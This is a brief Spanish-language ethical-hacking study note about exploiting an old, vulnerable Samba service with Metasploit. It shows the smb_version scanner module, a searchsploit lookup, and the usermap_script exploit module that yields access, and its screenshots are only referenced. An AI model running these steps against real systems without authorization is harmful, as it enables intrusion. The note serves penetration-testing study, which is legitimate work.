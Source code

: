 #Mestasploit #PinguinoMario #HackingEtico 
Supongamos que nos encontramos con un servicio de SAMBA en una versión vulnerable:
![[Pasted image 20230802123053.png]]
Podemos buscar en metasploit algún módulo para enumerar y explotar este servicio:
```bash
use auxiliary/scanner/smb/smb_version
```
Usamos el módulo, ponemos la IP objetivo y comprobamos la versión exacta:
![[Pasted image 20230802123307.png]]
Lo buscamos con searchsploit y vemos que hay un exploit para esta versión:
![[Pasted image 20230802123357.png]]
Lo ponemos en metasploit, lo ejecutamos y estamos dentro:
```bash
use exploit/multi/samba/usermap_script
```
![[Pasted image 20230802123452.png]]
